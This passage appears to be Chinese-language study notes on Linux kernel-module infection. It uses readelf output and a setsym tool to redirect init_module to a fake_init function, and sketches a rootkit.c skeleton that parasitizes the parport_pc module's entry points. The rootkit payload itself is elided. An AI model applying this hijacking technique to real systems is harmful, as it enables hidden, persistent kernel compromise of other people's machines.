 结合符号表 `readelf -s noinjko.ko`：

```
    56: 0000000000000000    46 FUNC    GLOBAL DEFAULT    2 init_module
    66: 0000000000000060    79 FUNC    GLOBAL DEFAULT    2 fake_init
    72: 0000000000000000    46 FUNC    GLOBAL DEFAULT    2 noinj_init
```

可见，`init_module` 与真实的初始化函数 `noinj_init` 值相同。那么我们如果能把 `init_module` 的值改为 `fake_init` 的值，在模块加载进行符号解析、重定位时，就会执行 `fake_init`。

使用 `setsym` 工具修改符号表：

```
setsym <module_path> <symbol_name>
setsym <module_path> <symbol_name> <symbol_value>
```

修改模块中 `init_module/cleanup_module` 的符号值即可执行 `fake_init/fake_exit`。

以上实现了同模块入口出口劫持，下面我们希望能用一个模块（我们的 Rootkit）的入口出口函数替换另一个模块（内核自动加载模块）的入口出口函数。

使用 `rootkit` 作为实例，其入口出口函数为 `init_rootkit/cleanup`，`codeinj`作为目标模块，入口出口函数为 `codeinj_init/codeinj_exit`。注意，寄生模块不要使用 `module_init/module_exit` 宏，否则在链接时无法成功。

**感染系统中的内核模块**

在 `lsmod` 里找一个未使用的模块，没找到文章里讲的 `video`，随便换一个 `parport_pc` 看行不行：

```c
// driviers/parport/parport_pc.c
module_init(parport_pc_init)
module_exit(parport_pc_exit)
```

准备讲 `rootkit` 感染到其中：

```
// rootkit.c
extern int parport_pc_init(void);
extern void parport_pc_exit(void);

__init init_rootkit(void) {
	parport_pc_init();
	...
}
__exit cleanup_rootkit(void) {
	...
	parport_pc_exit();
}
```

